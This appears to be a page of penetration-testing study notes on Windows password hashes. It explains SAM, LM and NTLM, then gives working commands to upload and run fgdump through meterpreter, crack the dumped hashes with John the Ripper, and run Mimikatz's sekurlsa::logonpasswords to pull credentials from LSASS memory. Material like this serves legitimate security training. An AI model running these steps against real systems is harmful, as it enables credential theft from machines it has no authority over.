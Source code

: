 # Windows Passwords and Hashes

Cryptographically secured hases cannot be reverse, but it is possible to match an existing or "known" hash and thereby determine the original input that created the hash. For Windows we can use tools like `fgdump` and `hashdump` to extract the password hashes, then pass these to tools like `John` to find the clear text.

### Dumping SAM Files

Common way to capture hashes on older Windows systems - the SAM (Security Account Manager) file is a database in Windows XP, Vista, 7, 8.1, and 10 that stores user passwords, and can authenticate both local and remote users on the system. 

### LM 

Windows prior to 2003 used a weak hashing function called LM or LanMan or LAN Manager. This converted all characters to uppercase, then split the password into separate strings of max 7 characters before hashing. 

### NTLM 

Windows Vista and up disable LM and use NTLM. NTLM supports all Unicode characters and case sensitive, although salted hashes are not used, so it is still vulnerable to rainbow table and brute force attacks. 

### Extracting Password Hashes

SAM cannot be access directly while Windows is running, because it's locked by the Windows OS. It is possible to extract from memory however, using `pwdump`, `fgdump`, and `hashdump`.
With `meterpreter` you can simply type `hashdump`. 

What if we need `fgdump` ? 

```shell
upload /usr/share/windows-binaries/fgdump/fgdump.exe c:\\
cd ..\..
fgdump.exe
# Once retrieved, they are written to `127.0.0.1.pwdump`
type 127.0.0.1.pwdump
# Copy contents to hashes.txt
john --wordlist=/usr/share/john/password.lst /root/Desktop/hashes.txt
# Also try out /usr/share/wordlists/rockyou.txt
```

### Retrieving Credentials with Mimikatz

Mimikatz is a popular post-exploitation tool that can retrieve credentials and secrets from system memory. 
https://github.com/gentilkiwi/mimikatz
Once a user signs in, credentials are stored in the Local Security Authority Subsystem Service (LSASS) which is kept in memory. This is intended to facilitate SSO - credentials stored include Kerberos tickets, password hashes and some clear-text passwords.  The following example we will use Windows 7 and Mimikatz.

```bash
# Download from https://github.com/gentilkiwi/mimikatz/releases
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip

# Extract
unzip mimikatz_trunk.zip -d /root/Desktop/Mimikatz/

# Execute on the target system using meterpreter
execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m

# With administrator access to the target, need debug access:
privilege::debug
# If all goes well - 'Privilege '20' OK' will be returned
# Otherwise: Error: ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c000061

# Extract passwords of logged-on accounts
sekurlsa::logonpasswords 
```



